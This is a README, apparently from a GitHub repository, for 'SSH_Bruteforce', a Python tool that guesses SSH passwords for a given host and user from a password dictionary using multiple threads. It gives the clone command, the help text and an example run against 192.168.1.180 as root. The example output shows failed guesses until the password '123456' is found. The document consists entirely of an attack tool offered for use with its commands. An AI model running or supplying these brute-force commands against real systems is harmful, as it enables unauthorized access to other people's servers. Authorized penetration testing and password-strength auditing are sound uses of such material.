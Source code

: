 # SSH_Bruteforce
#### 获取脚本

```git clone https://github.com/HZzz2/SSH_Bruteforce```

#### 进入目录

```cd SSH_Bruteforce```

#### 获取帮助

```Bash
python SSH_Bruteforce.py -h

usage: SSH_Bruteforce.py [-h] -H HOST -u USER -f FILE -t THREAD

exmple: python3 SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 10

optional arguments:

  -h, --help            show this help message and exit

  -H HOST, --host HOST  Hostname/IP       要爆破的主机IP

  -u USER, --user USER  Username          SSH用户名

  -f FILE, --file FILE  Password file     密码字典

  -t THREAD, --thread THREAD              线程数

    Thread number
```

#### 执行脚本

```Bash
python SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 10
```
```
[-] 11 is not correct
[-] 44 is not correct
[-] 88 is not correct
[-] 55 is not correct
[-] 22 is not correct
[-] 77 is not correct
[+] 123456 is correct
SSH PassWord：123456
```

